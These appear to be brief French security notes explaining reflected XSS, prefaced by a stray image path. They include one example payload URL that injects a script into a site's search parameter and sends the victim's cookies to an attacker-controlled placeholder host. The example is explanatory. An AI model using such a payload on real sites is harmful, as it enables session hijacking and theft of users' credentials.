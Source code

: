 # XSS reflected / XSS réflechie ou volatile

Correspond à un payload envoyé à une victime qui en la déclenchant envoie une requête à un serveur légitime qui executera le payload.

```shell
http://<vul_website>/search?query=<script>document.location='<monsite>'+document.cookie</script>
```
